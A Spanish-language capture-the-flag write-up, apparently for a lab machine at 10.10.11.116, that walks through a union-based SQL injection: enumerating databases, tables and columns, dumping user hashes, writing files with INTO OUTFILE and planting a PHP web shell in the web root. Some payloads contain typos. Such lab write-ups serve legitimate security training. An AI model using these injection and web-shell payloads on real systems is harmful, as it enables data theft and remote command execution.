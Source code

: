 Aqui la web nos muestra un 1 que significa que es vulnerable a SQLI.

Miramos las bases de datos existentes

```bash
username=admin&country=Brazil' union select schema_name from information_schema.schemata-- -
```

vemos que hay:
- information_schema
- performance_schema
- mysql
- registration

Miramos las tablas existentes en registration

```bash
username=caa&country=Brazil' union select table_name from information_schema.tables where table_schema="registration"-- -
```

Vemos que solo hay una tabla registration.

Enumeramos las columnas

```bash
username=caa&country=Brazil' union select column_name from informaction_shema.columns where table_schema="registration" and table_name="registration"-- -
```

Vemos las columnas:
- username
- userhash
- country
- regtime

Con group_concat enumeramos lo que hay en esta tabla

```bash
username=caa&country=Brazil' union select group_concat(username,0x3a,userhash) from registration-- -
```

Aqui vemos 
-admin:212321297a57a5a743894a0e4a801fc3
-caa:f931822fed1932e33450b91305a0c3d

Pero son usuarios que hemos creado nosotros.

#### Depositar ficheros con SQLI {-}

```bash
username=admin&country=Brazil' union select "probando" into outfile /var/www/html/prueba.txt-- -
```

Si vamos con firefox a la url `http://10.10.11.116/prueba.txt` podemos ver prueba. Intentamos subir un fichero php

```bash
username=admin&country=Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/s4vishell.php-- -
```
